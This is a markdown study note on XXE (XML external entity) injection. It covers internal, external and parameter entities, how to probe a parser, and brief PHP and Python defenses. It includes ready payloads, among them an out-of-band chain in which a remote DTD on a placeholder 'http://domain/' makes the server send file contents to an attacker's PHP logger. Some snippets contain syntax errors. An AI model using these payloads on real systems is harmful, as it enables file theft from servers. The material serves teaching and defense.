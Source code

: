 # XXE
*  [Entity](#entity)   
*  [Exploit](#exploit)   
*  [Defense](#defense)  
*  [Reference](#reference)   
   
XML is a markdown language just like html, but it focuses on transmitting data, and Case-sensitive。  
```xml
<?xml version=“1.0” encoding=“utf-8”>    // xml declaration
<!DOCTYPE a[                    // DTD doc type def
    <!ENTITY .....>
]>
<a>     // doc element
....
</a>
```
In the `XXE-SSRF` part are the practice of clear and blind-based 

## Entity
In DTD, we all need to declare before use entity  
Entity is just like a variable  
1. Internal entity： `<!ENTITY name "value">`  
```xml
<!DOCTYPE pwnch[
  <!ENTITY var "hi">
]>
<root>&var;</root>
```  

2. External entity： `<!ENTITY name SYSTEM "URL">`  
```xml
<!ENTITY var SYSTEM "url://.......txt">
<root>&var;</root>
```
version after 2.9.0 default not to parse the external entity  
Therefore, we can use the code `print "libxml version: ".LIBXML_DOTTED_VERSION."\n";` to make sure  

3. Parameter entity： `<!ENTITY %name "value>"`  
```xml
// exp.dtd: <!ENTITY next SYSTEM "file://.txt">
<!DOCTYPE pwnch[
  <!ENTITY %var SYSTEM "http://...../exp.dtd">
  %var;
]>
<root>&next;</root>
```
While importing external entity, we also can bring into the parameter in `exp.dtd`.  
> By the way, the first two lines of code `file:///` are protocol, and the last line mean root dir.

## Exploit
1. Vul to XXE?  
Input a xml to see whether it is parsed  
2. Support of External entity?
```
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "url">
%name;
]>
```  
  
3. Return -> Simple  
**php and XXE**  
```php
$xml = @new SimpleXMLElement($data);
echo $xml->node;
```
`SimpleXMLElement` would make content format like a list： `[node] => 'content'`  
The code at the last line `$xml->node` means take out the **node**  
Therefore, we need an exploit like `<node>&var;</node>`   

4. No Return -> OOB(Out-Of-Band) XXE  
Make server deliver the data to us  
```xml
// XML for server side
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "what-do-you-want">
<!ENTITY % remote SYSTEM "http://domain/xxe.dtd">
%remote;
%all;
%send;
]>
```
xxe.dtd  
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://domain/test.php?a=%file;'>">
```
test.php  
```php
file_put_contents("test.txt",$_GET['a']);
```
The whole process of exploit：server parsed my xml input, and import dtd of my domain while parsing `remote`  
On `xxe.dtd`, there are `all` and `send` parameter entities, while parsing `send` entity, it would request to my `test.php`  
`test.php` would put content you want into the file of ```test.txt```.  

## Defense
```php
// php 
libxml_disable_entity_loader(true);
// python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```  
[更詳細的內容可以參考這篇的漏洞修復與防禦](https://thief.one/2017/06/20/1/)

## Reference
* Kaibro's slides  
* [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
